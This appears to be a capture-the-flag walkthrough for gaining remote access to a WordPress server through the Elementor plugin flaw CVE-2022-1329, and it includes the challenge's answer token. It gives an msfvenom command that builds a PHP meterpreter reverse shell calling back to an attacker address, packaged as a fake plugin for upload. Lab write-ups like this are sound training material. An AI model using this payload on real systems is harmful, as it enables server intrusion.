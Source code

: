 ## Question 2

_What is the token found on the web server with the WordPress site files?_

**Answer:** 4c0413e98f0c

The challenge files provides a Github vulnerability page on the Elementor plugin in WordPress (CVE-2022-1329). It would be up to the players to figure out if this is viable, which is evident by the fact that the Elementor plugin is in fact installed and includes one of the vulnerable versions. Players could try the other vulnerabilities, but this is the intended method of gaining remote access to the underlying server.

![](./img/c34-image3.png)

Within the exploit page provided, there is an example zip package containing a fake elementor-pro plugin. Within this folder you need to replace or update the elementor-pro.php file with one that will create a reverse shell to your machine.

You will not need the exploit python script since you have access to the admin plugins page of the site and can upload this package directly.

An example generation of this php reverse shell payload might look like the following (you can use any port you like, but it might be a good idea to ***not*** use 443 so that you can use it later in the challenge:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=123.45.200.201 LPORT=5555
-f raw -o payload.php
```

![](./img/c34-image4.png)
